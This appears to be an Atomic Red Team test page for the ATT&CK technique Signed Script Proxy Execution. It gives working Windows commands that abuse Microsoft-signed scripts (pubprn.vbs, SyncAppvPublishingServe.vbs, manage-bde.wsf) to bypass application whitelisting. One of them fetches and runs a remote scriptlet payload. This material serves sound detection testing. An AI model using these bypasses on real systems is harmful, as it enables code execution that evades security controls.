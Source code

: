 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

- [Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution](#atomic-test-2---syncappvpublishingserve-signed-script-powershell-command-execution)

- [Atomic Test #3 - manage-bde.wsf Signed Script Command Execution](#atomic-test-3---manage-bdewsf-signed-script-command-execution)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216/payloads/T1216.sct|

#### Run it with `command_prompt`! 
```
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```



<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServe Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServe script with options to execute an arbitrary PowerShell command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|

#### Run it with `command_prompt`! 
```
C:\windows\system32\SyncAppvPublishingServe.vbs “\n;#{command_to_execute}”
```



<br/>
<br/>

## Atomic Test #3 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | Path | C:\Windows\System32\calc.exe|

#### Run it with `command_prompt`! 
```
set comspec=#{command_to_execute}
cscript manage-bde.wsf
```

#### Commands to Check Prerequisites:
```

```

#### Cleanup Commands:
```
set comspec=C:\Windows\System32\cmd.exe
```

<br/>
